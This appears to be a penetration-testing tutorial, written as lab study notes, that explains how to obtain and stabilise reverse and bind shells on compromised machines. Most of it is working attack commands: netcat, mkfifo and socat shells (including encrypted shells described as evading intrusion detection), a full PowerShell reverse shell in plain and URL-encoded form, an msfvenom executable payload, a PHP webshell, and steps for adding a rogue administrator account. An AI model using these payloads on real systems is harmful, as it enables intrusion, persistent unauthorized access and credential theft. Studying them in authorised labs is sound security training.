




# What the Shell? 
An introduction to sending and receiving (reverse/bind) shells when exploiting target machines.

* [What is a shell?](#what-is-a-shell)
* [Tools](#tools)
   * [Netcat](#netcat)
   * [Socat](#socat)
   * [Metasploit - multi/handler](#metasploit---multihandler)
   * [Msfvenom](#msfvenom)
* [Types of shells](#types-of-shells)
   * [Reverse Shell Example](#reverse-shell-example)
   * [Bind Shell example](#bind-shell-example)
   * [Interactivity](#interactivity)
* [Netcat](#netcat-1)
* [Shell stablisation](#shell-stablisation)
   * [Technique 1: Python](#technique-1-python)
   * [Technique 2: rlwrap](#technique-2-rlwrap)
   * [Technique 3: Socat](#technique-3-socat)
* [Socat](#socat-1)
   * [Stablised shells](#stablised-shells)
* [Socat encrypted shells](#socat-encrypted-shells)
* [Common shell payloads](#common-shell-payloads)
   * [for Windows Powershell](#for-windows-powershell)
   * [Other payloads](#other-payloads)
* [msfvenom](#msfvenom-1)
   * [Staged vs Stageless](#staged-vs-stageless)
   * [Payload naming conventions](#payload-naming-conventions)
* [Metasploit multi/handler](#metasploit-multihandler)
* [WebShells](#webshells)
* [Next steps](#next-steps)
## What is a shell?

A *shell* is what we use to interface with a Command Line environment. The common `bash` or `sh` programs in Linux, and `cmd.exe` and Powershell on Windows are all examples of a shell.

When targeting remote systems, it may be possible to force an application on the server to execute arbitrary code. We would then normally force the remote server to either send us command line access (this is a **reverse** shell), or to open up a port on the server which we can connect to to execute further commands (this is a **bind** shell).

## Tools

There are a variety of tools that we will use to receive reverse shells and to send bind shells. Generally, we need:

* malicious shell code, and
* a way to interface with the resulting shell.

We will discuss some of the tools below: 

-----

### Netcat

*Netcat* is an essential tool in networking. It is used to manually perform all kinds of network interactions. Most importantly, it can be used to receive reverse shells and connect to remote ports attached to bind shells on a target system. Netcat shells are very unstable (easy to lose) by default, but can be improved by the use of certain techniques.

### Socat

*Socat* can be seen as an improved version of Netcat. It can do the same things as Netcat, and many more. Socat shells are usually also more stable than Netcat shells. However, there are some caveats:

1. Socat has more difficult syntax.
2. Netcat is installed on almost all Linux distributions by default, while Socat is not.

Both Netcat and Socat have `.exe` versions for use on Windows systems.

### Metasploit - multi/handler

The `auxiliary/multi/handler` module of the Metasploit framework can also be used to receive reverse shells. `multi/handler` provides a fully-fledged way to obtain stable shells, with many further options to improve the caught shell. It is also the only way to interact with a *meterpreter* shell, and is the easiest way to handle *staged payloads*.

### Msfvenom

Like `multi/handler`, msfvenom is part of the Metasploit framework. However, it is shipped as a standalone tool. Msfvenom is used to generate payloads, for both reverse and bind shells, on the fly.

-----

Aside from the tools above, there are also repositories which collate shells in different languages: 

* [Payload all the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [PentestMonkey Reverse Shell Cheatsheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [SecLists repo](https://github.com/danielmiessler/SecLists)

Kali Linux also comes pre-installed with a variety of webshells at `/usr/share/webshells`. 

## Types of shells

As mentioned earlier, there are two types of shells that are of interest when exploiting a target: *reverse* shells, and *bind* shells.

**Reverse shells** are when the target is forced to execute code that connects back to the attacker. The attacker would set-up a *listener* to receive the connection. Reverse shells are a good way to bypass firewall rules that may prevent us from connecting to arbitrary ports on the target. However, when we receive a shell from a target across the Internet, we will need to configure our own network to accept the shell. 

**Bind shells** are when the code excuted on the target starts a listener attached to a shell *on the target*. This would then be opened up to the Internet: we can connect to the port that the code has opened and obtain remote code execution. This has the advantage of net requiring configuration on our network, but may be prevented by firewalls protecting the target.

Generally, reverse shells are easier to learn and debug.

-----

### Reverse Shell Example

The reverse shell is more common. On the attacking machine, we might run a command such as:
```console
~$ sudo nc -lvnp 443
```
Meanwhile, on the target, we might execute a command such as: 
```console
~$ nc <LOCAL_IP> <PORT> -e /bin/bash
```
albeit not explicitly; usually executed via some code injection, etc.

Successful execution of the commands lead to something like



On the left, we have the reverse shell listener on the attacking machine. On the right, is the target machine. 

Notice that after running the command on the right, the listener receives a connection. When the `whoami` command is executed on the target, we see that we are executing commands as the target user.

> The main point here is that we are *listening* on our own attacking machine, and sending a connection *from* the target.

-----

### Bind Shell example

The bind shell is less common, but still very useful. On the target, we will need to start a listener, and at the same time tell it to execute `cmd.exe`:
```console
~$ nc -lvnp <PORT> -e "cmd.exe"
```
On the attacking machine, we will execute something like
```console
~$ nc <MACHINE_IP> <PORT>
```

We will end up with something that looks like



Here, the attacker is on the left and the target is on the right. As we can see, we have code execution on the remote machine. 

> In constrast to reverse shells, here we are *listening* on the **target**, then connecting to it with the attacker.

-----

### Interactivity

Shells can either be *interactive* or *non-interactive*. 

* **Interactive**: *Powershell, Bash, Zsh* are all examples of interactive shells. These allow us to interact with the programs after executing them.
* **Non-interactive**: In a non-interactive shell, we are limited to programs which **do not** require user interation to run properly. Majority of reverse and bind shells are non-interactive.

## Netcat

As mentioned previously, Netcat is the basic tool in a pentester's toolkit when it comes to networking. For **reverse shells**, Netcat can be used to start a listener on the attacking machine.

The syntax for starting a listener in Linux is
```console
~$ nc -lvnp <PORT>
```
* `-l` tells Netcat that this is a listener
* `-v` requests for verbose output
* `-n` tells Netcat not to resolve hostnames or use DNS, i.e. only numeric-only IP addresses are valid
* `-p` indicates that a port will be specified

In the previous section, the example used port 443. Realistically, we can use any port we want (as long as no other service is using it). If a port below 1024 is used, then we will need `sudo` when starting the listener. 

> It is often a good idea to use a well-known port number (e.g. 80, 443, 53) as they are more likely to get past outbound firewall rules on the target.

On the other hand, for **bind shells**, we already have a listener on the target on a specified port -- all we need to do is connect to it. The syntax is straight forward:
```console
~$ nc <TARGET_IP> <PORT>
```

For more information, see the [man page](https://www.commandlinux.com/man-page/man1/nc.1.html) for Netcat.

## Shell stablisation

Shells obtained via Netcat are *unstable* by default -- `Ctrl + C` kills the entire shell.  The shells are also non-interactive, and often have strange formatting errors. This is because Netcat "shells" are essentially **processes running inside a terminal**, rather than being a terminal itself. 

Here, we will look at three techniques which can be used to stablise Netcat shells in Linux. Stabilisation of Windows reverse shells is significantly harder, but the [second technique](#technique-2-rlwrap) is particularly useful.

---

### Technique 1: Python

This technique is only applicatble to Linux systems, since they always have *Python* installed by default. This is a three-step process.

1. In the reverse shell, we execute

   ```console
   ~$ python -c 'import pty; pty.spawn("/bin/bash")'
   ```
   This is essentially running a Python script to spawn a better featured bash shell.

   > On some targets, we may need to specify the version of Python by using `python2` or `python3`.

   At this point, the shell will look better, but we still lack functionality like autocomplete, and `Ctrl + C` still kills the shell. 

2. In the shell that we spawned, we execute
   ```console
   ~$ export TERM=xterm
   ```

    This sets the environment variable `TERM` to be `xterm` which gives us access to terminal commands such as `clear`.

3. Finally, we will background the shell using `Ctrl + Z`, then run 
   ```console
   ~$ stty raw -echo; fg
   ```

   This command first turns off our own terminal echo -- giving us access to autocomplete, etc. -- and then foregrounds the spawned shell, thus completing the process.

Overall, the technique looks like 


Note that if the reverse shell is killed, any input in our own terminal will not be visible since we disabled the terminal echo (in the last step). To fix this, type `reset` and press `Enter`. 

-----

### Technique 2: rlwrap

*rlwrap* is a program which can give us access to the command history, autocomplete and other features **immediately** upon receiving the shell. However, some *manual* stabilisation must still be utilised to be able to use `Ctrl + C` inside the shell.

> rlwrap is **not** installed by default on Kali Linux, so we have to first install it with `sudo apt install rlwrap`.

To use rlwrap, we need to invoke a slightly different listener:
```console
~$ rlwrap nc -lvnp <PORT>
```

By prepending our Netcat listener with rlwrap, we obtain a more fully featured shell. This technique is also useful for Windows shells. 

On Linux targets, we can continue to fully stablise the shell using the third step of the previous technique: 
* background the reverse shell with `Ctrl + Z`,
* use `stty raw -echo; fg` to stablise and re-enter the shell.

-----

### Technique 3: Socat

The third way to stablise a shell is to use the initial Netcat shell as a stepping stone to a more fully-featured Socat shell. Like the [first technique](#technique-1-python), this is limited to Linux targets since a Socat shell is no more stable than a Netcat shell on Windows. 

To accomplish this stablisation, we first need to transfer a Socat static compiled binary (available on Github [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat); a statically compiled binary has no dependencies) to the target machine. 

One way to do this is to set up a webserver on the attacking machine inside the directory containing the Socat binary (possibly using Python: `sudo python3 -m http.server 80`). Then, on the target machine, using the netcat shell, download the file (typically via `curl` or `wget` on Linux, e.g. `wget <LOCAL_IP>/socat -O /tmp/socat`).

In a Windows CLI environment, the same can be done with Powershell, using either `Invoke-WebRequest` or a `webrequest` system class. 

Sending and receiving shells with Socat is covered in a later section.

-----

With the above techniques, it is useful to be able to change the terminal tty size. Typically, the shell does this automatically, but must be done manually for reverse/bind shells. In our own terminal, we execute
```console
~$ stty -a
speed 38400 baud; rows 45; columns 118; line = 0;
...
```
and note down the values for `rows` and `columns`. 

Then, in the reverse/bind shell, we execute

```console
~$ stty rows <ROWS>
~$ stty cols <COLUMNS>
```

This changes the registered height and width of the terminal so that programs -- text editors, etc. -- open and display correctly. 

## Socat

*Socat* is similar to Netcat in some ways, but fundamentally different in many others. Socat can be thought of as a connector between two points, such as:

* between a listening port and a keyboard, 
* between a listening port and a file, or
* between two listening ports. 

For **reverse shells**, the basic syntax for a listener is
```console
~$ socat TCP-L:<PORT> -
```

This takes two points -- a listening port and standard input -- and connect them together. The resulting shell is unstable, much like using Netcat. 

On Windows, we can connect to the listener using 
```console
~$ socat TCP:<LOCAL_IP>:<LOCAL_PORT> EXEC:powershell.exe,pipes
```

The `pipes` option forces Powershell (or `cmd.exe`) to use UNIX style standard input and output. 

For a Linux target, we execute
```console
~$ socat TCP:<LOCAL_IP>:<LOCAL_PORT> EXEC:"bash -li"
```

For **bind shells**, we would start a listener on a Linux target by using: 
```console
~$ socat TCP-L:<PORT> EXEC:"bash -li"
```

Similarly, on a Windows target:
```console
~$ socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

Again, the `pipes` option is used to interface between the standard input and outputs of Windows and UNIX.

The attacking machine should then execute
```console
~$ socat TCP:<TARGET_IP>:<TARGET_PORT> -
```
to connect to the listener. 

-----

### Stablised shells

As mentioned earlier, one of the more porwerful uses for Socat is that it is able to obtain a *fully stable* Linux tty reverse shell. The listener syntax in this case is
```console
~$ socat TCP-L:<PORT> FILE:`tty`,raw,echo=0
```

In this case, Socat is establishing a connection between a listening port and a file -- specifically the current tty is being passed in as a file, and we set `echo` to be 0. 

> This is approximately equivalent to using `Ctrl + Z`, followed by `stty raw -echo; fg` with a Netcat shell.

This listener must then be activated with a specific Socat command on the target. Thus, the target must have Socat installed on it. The special command is 
```console
~$ socat TCP:<ATTACKER_IP>:<ATTACKER_PORT> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

This command establishes a connection between the listener on the attacking machine to an *interactive bash session* on the target. Additionally, the bash session is initialised with the arguments: 
* `pty` -- allocates a pseudoterminal on the target; part of the stablisation process,
* `stderr` -- makes sure that any error messages get shown in the shell,
* `sigint` -- passes and `Ctrl + C` commands through into the subprocess, allowing us to kill processes in the shell,
* `setsid` -- creates the process in a new session,
* `sane` -- stablises the terminal.

In practice, using Socat to instantly obtain a stable reverse shell should look like



On the left is the attacking machine with the listener, while on the right is a compromised target. The target starts with a non-interactive Netcat shell, from which the special Socat command is executed. The attacker then receives a fully interactive bash shell on the socat listener. 

-----

If, at any point, a Socat shell is not behaving properly, we can increase the verbosity by adding `-d -d` into the command.

## Socat encrypted shells

Socat is also capable of creating *encrypted* shells -- both bind and reverse. Encrypted shells **cannot** be spied on unless one has the decryption key, and are often able to bypass intrusion detection systems (IDS) as a result. 

We first need to generate a certificate in order to use encrypted shells. It is easy to do this on the attacking machine

```console
~$ openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

This command creates a 2048-bit RSA key with a matching certificate file, self-signed and valid for just under a year. When this command is executed, it will ask for information about the certificate. This can be left blank or filled randomly. 

We then merge the two created files together
```console
~$ cat shell.key shell.crt > shell.pem
```

Then, to set up a reverse shell listener, we use

```console
~$ socat OPENSSL-LISTEN:<PORT>, cert=shell.pem, verify=0 -
```

`verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. 

> The certificate **must** be used on whichever device is listening.

To connect to the listener, we execute the following on the target:

```console
~$ socat OPENSSL:<LOCAL_IP>:<LOCAL_PORT>, verify=0 EXEC:/bin/bash
```

The entire process will look like


In the image, the attacker is on the left, while the target is on the right.

Similarly for a bind shell, the target starts a listener using

```console
~$ socat OPENSSL_LISTEN:<PORT>, cert.shell.pem, verify=0 EXEC:cmd.exe,pipes
```

and the attacking machine connects to the listener using

```console
~$ socat OPENSSL:<TARGET_IP>:<TARGET_PORT>, verify=0 -
```

Since the certificate has to be used with the listener, we have to copy the `.pem` file across to the target before spawning the bind shell. 

This technique also works together with the special Linux tty shell discussed [previously](#stablised-shells). The listener syntax is 

```console
~$ socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 FILE=`tty`,raw,echo=0
```

and the syntax to connect to the listener is 

```console
~$ socat OPENSSL:<ATTACKER_IP>:<ATTACKER_PORT>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

## Common shell payloads

In some versions of Netcat, there is a `-e` option, which allows us to execute a process upon connection. For example, if we start a listener with:
```console
~$ nc -lvnp <PORT> -e /bin/bash
```

Then, connecting to the above listener with Netcat results in a bind shell on the target.

Similarly, if we connect to a listener using
```console
~$ nc <ATTACKER_IP> <PORT> -e /bin/bash
```
would result in a reverse shell on the target.

This almost always works on Windows where a static binary is required. On Linux, we may create a listener for a bind shell using
```console
~$ mkfifo /tmp/f; nc -lnvp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

> The command first creates a [*named pipe*](https://www.linuxjournal.com/article/2156) at `/tmp/f`. It then starts a Netcat listener and connects the **input** of the listener to the **output** of the named pipe. The **output** of the Netcat listener -- the commands we sent -- is then piped into `/bin/sh`. `2>&1` sends the *stderr* stream to *stdout* and then *stdout* is sent to the input of the named pipe via `>/tmp/f`.

We can similarly send a Netcat reverse shell:

```console
~$ mkfifo /tmp/f; nc <ATTACKER_IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

-----

### for Windows Powershell

When targeting a modern Windows Server, we would require a Powershell reverse shell. The standard syntax is

```powershell
> powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

replacing \<IP> with the attacker's IP address and \<PORT> with the appropriate port.

-----

### Other payloads

For other common reverse shell payloads, [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is a repository that contains a wide variety of shell codes. 

## msfvenom

msfvenom is part of the Metasploit framework and can be used to generate code for reverse and bind shells. It is used extensivelt in lower-level exploit development to generate hexadecimal shellcode. However, it can also be used to generate payloads in various formats (e.g. `.exe`, `.aspx`, `.py`).

The standard syntax for msfvenom to generate payloads is as follows:

```console
~$ msfvenom -p <PAYLOAD> <OPTIONS>
```

For example, to generate a Windows x64 reverse shell in an executable format, we would use

```console
~$ msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=10.10.10.10 LPORT=50000
```

Here, we generated a payload using four options:

1. `-f <FORMAT>` -- specifies the output format, which in this case is an executable (exe).
2. `-o <FILENAME>` -- specifies the output location and filename for the generated payload.
3. `LHOST=<IP>` -- specifies the IP to connect back to.
4. `LPORT=<PORT>` -- specifies the port to connect back to. This can be anything between 0 and 65535, but recall that ports below 1024 require a listener with root priviledges. 

-----

### Staged vs Stageless

Before proceeding any further, we need to introduce the concept of *staged* and *stageless* reverse shell payloads. 

**Staged** payloads are sent in **two** parts. The first part, known as the *stager* is a piece of code that is executed directly on the server itself. It connects back to a waiting listener, but does not contain any reverse shell code. Instead, upon connection to a listener, it uses the connection to load the real payload, executing it directly. This prevents the payload from touching the disk where it is susceptible to being detected by anti-virus solutions. 

In short, we can think of the payload being split into two parts -- a small initial stager, and a bulkier reverse shell code that is downloaded when the stager is activated.

Staged payloads require a special listener, such as the Metasploit [multi/handler](#metasploit-multihandler). 

**Stageless** payloads are what we have seen up until this point. They are entirely self-contained: there is only one piece of code, which sends a shell back to the listener upon execution. 

Stageless payloads tend to be easier to use, but they are also bulkier and more prone to anti-virus detection. 

On the other hand, staged payloads are harder to use, but the shorter initial stager is harder for anti-virus solutions to detect. However, modern anti-virus solutions may detect the payload as it is loaded into memory by the stager.

### Payload naming conventions

The basic naming convention within msfvenom is as follows:

```
<OS>/<ARCHITECTURE>/<PAYLOAD>
```

For example: `linux/x86/shell_reverse_tcp`, which generates a stageless reverse shell for an x86 Linux target. 

One exception to the convention is for Windows 32-bit targets. For such targets, the architecture is not specified. e.g. `windows/shell_reverse_tcp`.

In the earlier examples, we used the payload `shell_reverse_tcp`. The underscore ( `_` ) after `shell` denotes that the payload is **stageless**. For **staged** payloads, we denote it using a forward slash ( `/` ). Thus, the staged equivalent of the above examples is: `shell/reverse_tcp`. 

For *Meterpreter* payloads, we can simply replace `shell` with `meterpreter`. A Windows 64-bit staged Meterpreter payload is named as:

```
windows/x64/meterpreter/reverse_tcp
```

> **Meterpreter** is Metasploit's own brand of fully-featured shell. They are completely stable. Meterpreter shells must be caught in Metasploit.

-----

We can list all available payloads in msfvenom using the command:

```console
~$ msfvenom --list payloads
```

We can then pipe the output of this command into `grep` to search for specific payloads. For example, the command

```console
~$ msfvenom --list payloads | grep "linux/x86"
```

gives us the full set of payloads for 32-bit Linux systems.

## Metasploit multi/handler

*Multi/handler* is a tool to catch reverse shells. It is essential when using Meterpreter shells, and the go-to when using **staged** payloads. 

To get started:
1. open Metasploit with `msfconsole`,
2. run the command `use multi/handler` in the console. 

We can use the `options` command to view all the available options. There are three options that we will need to set: the payload, LHOST and LPORT -- identical to the options we set when generating shellcode with [msfvenom](#msfvenom). To set these options, we use the commands:

* `set PAYLOAD <PAYLOAD>`
* `set LHOST <LISTENER_IP>`
* `set LPORT <LISTENER_PORT>`

Once these options are set, we can then start the listener using the command `exploit -j` -- this tells Metasploit to launch the module running as a job in the background. 


Then, to foreground the captured shell, we can use `sessions` to view all active sessions, find the relevant session and use `sessions <NUMBER>`. The relevant session number is also shown when the shell was opened.


## WebShells

We may encounter websites that give us the opportunity to upload, in some way or another, an executable file. Ideally, we would upload code that activates a bind or reverse shell, but this is sometimes not possible. In such cases, we may attempt to upload a webshell. For more details, one can look at the [Upload Vulnerabilities](https://tryhackme.com/room/uploadvulns) room.

A *webshell* is a script that runs inside a webserver (usually in a language like PHP or ASP) which executes code on the server. Essentially, commands are entered into a webpage -- either via a HTML form, or directly as arguments in the URL -- which are then executed by the webshell, with the results returned and written onto the page. This can be extremely useful if there are firewalls in place, or even just as a stepping stone to a fully-fledged bind or reverse shell. 

A simple webshell in PHP is as follows:

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

This will take a `GET` parameter in the URL and execute it on the system with `shell_exec()`. The `pre` elements ensure that the output is formatted correctly on the page.



There are a variety of webshells available on Kali Linux by default at `/usr/share/webshells`, but we should note that most generic, language-specific reverse shells are written for Unix-based targets like Linux webservers.

When the target is Windows, it is often easiest to obtain RCE using a webshell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former, obtaining RCE is often done using a URL encoded Powershell reverse shell. This would be copied into the URL as the `cmd` argument: 

```powershell
> powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

This is the same as the Powershell reverse shell discussed [earlier](#for-windows-powershell), but URL encoded to be used safely as a `GET` parameter. As before, the IP address (`<IP>`) and port number (`<PORT>`) need to be changed. 

## Next steps

We have seen many different ways to generate, send and receive shells. However, shells tend to be unstable and non-interactive. Even stablised shells are not ideal. What would our next steps be? 

On Linux, ideally we would be looking to gain access to a user account. SSH keys stored at `/home/<USER>/.ssh` are often a good way to do this. Some exploits will even allow us to *add our own account*. In particular, something like [Dirty C0w](https://dirtycow.ninja/) or a **writable** `/etc/shadow` or `/etc/passwd` would quickly give us SSH access to the machine, assuming that SSH is open. 

On Windows, the options are more limited. It is sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the **registry stored in plaintext**. Some versions of the *FileZilla* FTP server also leave credentials (in MD5 hashes or plaintext, depending on the version) in an XML file at `C:\Program Files\FileZilla Server\FileZilla Server.xml` or `C:\xampp\FileZilla Server\FileZilla Server.xml`.

Ideally on Windows, we would obtain a shell as the SYSTEM user, or an administrator account running high privileges. Then, we can simply add our own account (into the administrators group) to the machine, and then log in via methods such as RDP, telnet, winexe, etc. The powershell syntax to add a user is: 

```powershell
> net user <username> <password> /add
> net localgroup administrators <username> /add
```

The key takeaway is this: 
> Reverse and bind shells are an essential technique for gaining remote code execution on a machine. However, they will never be as fully featured as a native shell. Ideally, we always want to escalate into using a "normal" method for accessing the machine, as this will invariably be easier to use for further exploitable of the target.

